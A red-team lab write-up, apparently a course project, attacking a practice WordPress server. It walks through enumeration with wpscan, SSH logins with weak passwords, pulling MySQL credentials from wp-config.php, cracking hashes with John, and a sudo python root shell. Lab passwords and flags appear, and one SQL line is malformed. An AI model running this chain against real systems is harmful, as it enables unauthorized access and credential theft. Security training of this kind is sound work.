 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sV -O 192.168.1.110
```
![](/Final-Project/Target-1-Screenshots/NMAP-Target-1-Scan.png)

This scan identifies the services below as potential points of entry:
- Target 1
  - Port 22/tcp | SSH | OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
  - Port 80/tcp | http | Apache httpd 2.4.10 ((Debian))
  - Port 111/tcp | rpcbind | 2-4 (RPC #1000000)
  - Port 139/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
  - Port 445/tcp | netbios-ssn | Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on each target:
- Target 1
  - Open/Unfiltered Ports 22 & 80
  [screenshot]
  - WordPress Enumeration
  [screenshot]
  - Weak User Credentials
  [screenshot]
  - Misconfigured User Privileges on Target System
  [screenshot]
  - Brute Force Attack
  [screenshot]
  - Privilege Escalation (Python Library Hijacking)
  [screenshot]

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862428d}
    - **Exploit Used**
      - Step 1: WordPress User Enumeration
        - ` wpscan --url http://192.168.1.110/wordpress --enumerate vp,u `
      [screenshot] 
      - Step 2: SSH Login Using Weak Login Credentials
        - ` ssh michael@192.168.1.110, password: michael `
        [screenshot]
      - Step 3: File Directory Search
        - ` find . -iname "*flag1*" `
        [screenshot]
        
    
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - Step 1: File Enumeration
        - ` ls -la /var/www `
      - Step 2: Misconfigured File Privileges
        - ` cat /var/www/flag2.txt `
      [screenshot]

  - `flag3.txt`: flag3{afc01ab56b50591e7dccf93122770cd2}
    - **Exploit Used**
      - Step 1: Misconfigured File Privileges
        - ` nano /var/www/html/wordpress/wp-config.php `
        [screenshot]
      - Step 2: MySQL Login
        - ` mysql --host=localhost --user=root --password=R@v3nSecurity `
        [screenshot]
      - Step 3: Database Traversal & Table Enumeration
        - ` SHOW * FROM wp_posts; `
        [screenshot]
      

  - `flag4.txt`: flag4{715dea6c055b9fe3337544932f2941ce}
    - **Exploit Used**

      - Step 1: MySQL WordPress Login Credential Enumeration
        ` SELECT user_login,user_pass FROM wp_users; ` 
        [screenshot]
      - Step 2: Brute Force
        - ` john --wordlist=rockyou.txt wp_hashes.txt `
        [screenshot]
      - Step 3: SSH Login
        - ` ssh steven@192.168.1.110, password pink84 `
        [screenshot]
      - Step 4: Sudo Privileges Check
        - ` sudo -l `
        [screenshot]
      - Step 5: Privilege Escalation with Python Shell Spawn
        - ` sudo python -c 'import pty;pty.spawn("/bin/bash")' `
        [screenshot]
